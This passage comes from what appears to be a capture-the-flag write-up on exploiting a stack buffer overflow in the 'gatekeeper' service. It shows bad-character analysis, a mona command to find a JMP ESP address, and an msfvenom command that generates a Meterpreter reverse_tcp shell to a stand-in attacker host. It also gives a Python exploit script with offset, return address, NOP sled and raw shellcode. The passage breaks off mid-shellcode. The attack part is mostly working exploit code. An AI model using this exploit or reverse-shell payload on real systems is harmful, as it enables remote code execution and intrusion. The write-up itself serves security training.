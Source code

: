   ```
here,
-f is used for file where we genrate bytearray before .
-a is used for specify ESP address.

![got-bad-char](https://raw.githubusercontent.com/SUNNYSAINI01001/Gatekeeper/main/Screenshot/got-bad-char.png)

Here we found bad char 00 and 0a.
Now the next step is find a valid JMP ESP instruction address so that we can redirect the execution of the application to our malicious shellcode.

Restart the Immunity debugger and re-attach gatekeeper and using mona module we find a valid DLL/module 

command=>

```!mona jmp -r esp -cpb "\x00\x0a"```

found DLL/module=>

![dll-found](https://raw.githubusercontent.com/SUNNYSAINI01001/Gatekeeper/main/Screenshot/dll-found.png)

look like there are two possible JMP ESP address
set any one of the address to our exploit.py script in retn field on padding add nop (\x90) and generate a shell code using python.

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 EXITFUNC=thread -b "\x00\x0a" -f c```

and copy and paste the shell code in the payload field.

Then our script look like this:

```
import socket

ip = "192.168.226.129"
port = 31337

offset = 146
overflow = "A" * offset
retn = "\xC3\x14\x04\x08"
padding = "\x90" * 13
payload = ("\xdd\xc4\xba\xa7\x39\x0e\x3e\xd9\x74\x24\xf4\x5e\x2b\xc9\xb1"
"\x52\x83\xee\xfc\x31\x56\x13\x03\xf1\x2a\xec\xcb\x01\xa4\x72"
"\x33\xf9\x35\x13\xbd\x1c\x04\x13\xd9\x55\x37\xa3\xa9\x3b\xb4"
"\x48\xff\xaf\x4f\x3c\x28\xc0\xf8\x8b\x0e\xef\xf9\xa0\x73\x6e"
"\x7a\xbb\xa7\x50\x43\x74\xba\x91\x84\x69\x37\xc3\x5d\xe5\xea"
"\xf3\xea\xb3\x36\x78\xa0\x52\x3f\x9d\x71\x54\x6e\x30\x09\x0f"
"\xb0\xb3\xde\x3b\xf9\xab\x03\x01\xb3\x40\xf7\xfd\x42\x80\xc9"
"\xfe\xe9\xed\xe5\x0c\xf3\x2a\xc1\xee\x86\x42\x31\x92\x90\x91"
"\x4b\x48\x14\x01\xeb\x1b\x8e\xed\x0d\xcf\x49\x66\x01\xa4\x1e"
"\x20\x06\x3b\xf2\x5b\x32\xb0\xf5\x8b\xb2\x82\xd1\x0f\x9e\x51"
"\x7b\x16\x7a\x37\x84\x48\x25\xe8\x20\x03\xc8\xfd\x58\x4e\x85"
"\x32\x51\x70\x55\x5d\xe2\x03\x67\xc2\x58\x8b\xcb\x8b\x46\x4c"
"\x2b\xa6\x3f\xc2\xd2\x49\x40\xcb\x10\x1d\x10\x63\xb0\x1e\xfb"
"\x73\x3d\xcb\xac\x23\x91\xa4\x0c\x93\x51\x15\xe5\xf9\x5d\x4a"
"\x15\x02\xb4\xe3\xbc\xf9\x5f\xcc\xe9\xe3\x20\xa4\xeb\xe3\x31"
"\x69\x65\x05\x5b\x81\x23\x9e\xf4\x38\x6e\x54\x64\xc4\xa4\x11"
"\xa6\x4e\x4b\xe6\x69\xa7\x26\xf4\x1e\x47\x7d\xa6\x89\x58\xab"
"\xce\x56\xca\x30\x0e\x10\xf7\xee\x59\x75\xc9\xe6\x0f\x6b\x70"
"\x51\x2d\x76\xe4\x9a\xf5\xad\xd5\x25\xf4\x20\x61\x02\xe6\xfc"
"\x6a\x0e\x52\x51\x3d\xd8\x0c\x17\x97\xaa\xe6\xc1\x44\x65\x6e"
"\x97\xa6\xb6\xe8\x98\xe2\x40\x14\x28\x5b\x15\x2b\x85\x0b\x91"